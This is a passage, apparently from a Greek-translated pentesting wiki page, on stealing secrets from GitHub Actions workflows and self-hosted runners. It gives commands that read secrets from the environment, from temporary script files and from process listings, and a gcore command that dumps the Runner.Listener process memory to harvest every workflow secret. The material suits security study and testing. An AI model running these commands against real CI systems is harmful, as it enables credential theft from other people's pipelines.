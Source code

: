 {% content-ref url="../../../pentesting-cloud/gcp-security/gcp-basic-information/gcp-federation-abuse.md" %}
[gcp-federation-abuse.md](../../../pentesting-cloud/gcp-security/gcp-basic-information/gcp-federation-abuse.md)
{% endcontent-ref %}

### Πρόσβαση σε μυστικά <a href="#accessing-secrets" id="accessing-secrets"></a>

Αν εισάγετε περιεχόμενο σε ένα script, είναι ενδιαφέρον να γνωρίζετε πώς μπορείτε να έχετε πρόσβαση σε μυστικά:

* Αν το μυστικό ή το token έχει οριστεί σε μια **μεταβλητή περιβάλλοντος**, μπορεί να προσπελαστεί απευθείας μέσω του περιβάλλοντος χρησιμοποιώντας **`printenv`**.

<details><summary>Λίστα μυστικών στην έξοδο του Github Action</summary></details>

<details><summary>Λάβετε αντίστροφο κέλυφος με μυστικά</summary></details>

* Αν το μυστικό χρησιμοποιείται **άμεσα σε μια έκφραση**, το παραγόμενο script κελύφους αποθηκεύεται **στον δίσκο** και είναι προσβάσιμο.
* ```bash
cat /home/runner/work/_temp/*
```
* Για μια JavaScript actions τα μυστικά αποστέλλονται μέσω μεταβλητών περιβάλλοντος
* ```bash
ps axe | grep node
```
* Για μια **custom action**, ο κίνδυνος μπορεί να διαφέρει ανάλογα με το πώς ένα πρόγραμμα χρησιμοποιεί το μυστικό που έλαβε από το **argument**:

```yaml
uses: fakeaction/publish@v3
with:
key: ${{ secrets.PUBLISH_KEY }}
```

### Abusing Self-hosted runners

Ο τρόπος για να βρείτε ποιες **Github Actions εκτελούνται σε μη-github υποδομές** είναι να αναζητήσετε **`runs-on: self-hosted`** στο αρχείο ρύθμισης της Github Action yaml.

Οι **Self-hosted** runners μπορεί να έχουν πρόσβαση σε **επιπλέον ευαίσθητες πληροφορίες**, σε άλλα **συστήματα δικτύου** (ευάλωτα endpoints στο δίκτυο; metadata service;) ή, ακόμα και αν είναι απομονωμένα και καταστρέφονται, **περισσότερες από μία actions μπορεί να εκτελούνται ταυτόχρονα** και η κακόβουλη μπορεί να **κλέψει τα μυστικά** της άλλης.

Στους self-hosted runners είναι επίσης δυνατό να αποκτήσετε τα **μυστικά από τη διαδικασία \_Runner.Listener\_\*\* η οποία θα περιέχει όλα τα μυστικά των workflows σε οποιοδήποτε βήμα με την απόρριψη της μνήμης της:

{% code overflow="wrap" %}
```bash
sudo apt-get install -y gdb
sudo gcore -o k.dump "$(ps ax | grep 'Runner.Listener' | head -n 1 | awk '{ print $1 }')"
```
{% endcode %}
